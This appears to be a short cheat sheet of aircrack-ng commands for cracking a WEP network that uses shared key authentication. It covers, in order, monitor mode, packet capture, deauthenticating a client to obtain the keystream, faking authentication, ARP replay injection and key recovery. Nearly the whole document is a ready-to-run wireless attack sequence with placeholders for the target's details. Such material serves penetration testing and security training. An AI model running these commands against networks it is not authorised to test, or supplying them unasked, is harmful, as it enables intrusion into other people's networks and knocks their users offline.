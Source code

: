  **Start Interface**  
```bash
airmon-ng start <interface> <AP channel>  
```  
  
**Start Dump Capture**  
```bash
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface> 
```
  
**Deauthenticate connected Client to get PRGA XOR keystream**  
```bash
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>  
```
  
**Fake Shared Key Authentication using XOR file**  
```bash
aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP MAC> -h <Your MAC> <interface>  
```
  
**Launch ARP request replay attack**  
```bash
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>  
```
  
**Deauthenticate connected Client**  
```bash
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>  
```  
  
**Extract Key from Capture after enough IVs have been generated**
```bash
aircrack-ng <capture>
```